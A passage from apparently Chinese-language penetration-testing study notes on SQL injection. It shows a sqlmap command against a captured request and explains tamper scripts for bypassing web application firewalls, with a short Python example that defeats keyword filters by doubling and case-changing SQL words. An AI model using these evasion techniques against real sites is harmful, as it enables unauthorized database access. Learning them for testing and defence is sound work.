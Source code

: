    >    ![image-20210829144342622](../images/11_SQL注入漏洞/image-20210829144342622.png)
   >
   > 2. 使用语句`python sqlmap.py -r 1.txt --risk 3 --level 3 --batch`跑即可

5. sqlmap tamper的编写与代理设置

   >    1. 介绍：使用SQLMap提供的tamper脚本，可以在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击，简单来说就是用来**绕过WAF**的
   >
   >    2. 位置：写在Sqlmap目录下的tamper文件夹内
   >
   >    3. 使用：利用`--tamper=脚本名称`来绕过（脚本名没有后缀）
   >
   >    4. 编写示例：
   >
   >       ~~~python
   >       #!/usr/bin/env python
   >                            
   >       """
   >       Copyright (c) 2006-2021 sqlmap developers (http://sqlmap.org/)
   >       See the file 'LICENSE' for copying permission
   >       """
   >                            
   >       import re
   >                            
   >       from lib.core.enums import DBMS
   >       from lib.core.enums import PRIORITY
   >                            
   >       __priority__ = PRIORITY.LOW
   >                            
   >       def dependencies():
   >           pass
   >                            
   >       def tamper(payload, **kwargs):
   >           payload=payload.replace('SELECT','se select lect')		# 双写绕过
   >           payload=payload.replace('FROM','FrOm')					# 大小写绕过
   >           return payload
   >       ~~~
   >